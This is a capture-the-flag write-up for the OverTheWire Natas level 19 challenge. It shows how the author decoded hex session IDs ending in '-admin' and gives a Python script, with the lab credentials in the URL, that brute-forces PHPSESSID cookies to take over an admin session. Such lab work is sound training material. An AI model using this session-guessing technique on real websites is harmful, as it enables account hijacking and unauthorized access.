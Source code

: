 This level doesn&#8217;t supply a link to it&#8217;s sourcecode, so we have to logically deduce what is going on behind the scenes. Much of the functionality should be the same as the previous level, but the text suggests there is a change to the session id.

After attempting the login, then you can see what the session id is. Try a few logins to compare different session id&#8217;s. These are the ones I got:

1) 3539392d61646d696e  
2) 3633312d61646d696e  
3) 3337392d61646d696e

Only the first half of the ID changes. Also, just from experience with binary data, it looks to me like hex encoded ascii. When decoded, they come out to:

1) 599-admin  
2) 631-admin  
3) 379-admin

The pattern is pretty clear, this level just adds &#8220;-admin&#8221; onto the incremental ID. Simply add that to the attack code from before to get the password to the next level.

<pre class="lang:python decode:true">#!/usr/bin/python3
# Script to brute force level 19 of natas challenges

# Library to work with the POST requests
import requests

# Good message to search for
gstr = "Password"
bstr = "logged in as a regular user"

# Our target URL
target = 'http://natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs@natas19.natas.labs.overthewire.org/'

# Checking if we can connect to the target, just in case...
r = requests.get(target)
if r.status_code != requests.codes.ok:
        raise ValueError('Couldn\'t connect to target :(')
else:
        print('Target reachable. Starting character parsing...')

# Send request with incrementing session id in a loop until we get admin
num = 0
while(num &lt; 640):
	num += 1
	session = str(num) + "-admin"
	session = session.encode('utf-8')
	print("Attempting Session ID: " + session.hex())
	headers = {'Cookie': 'PHPSESSID=' + session.hex()}
	r = requests.get(target, headers=headers)
	if bstr not in r.text:
		print(r.text)
		break
</pre>
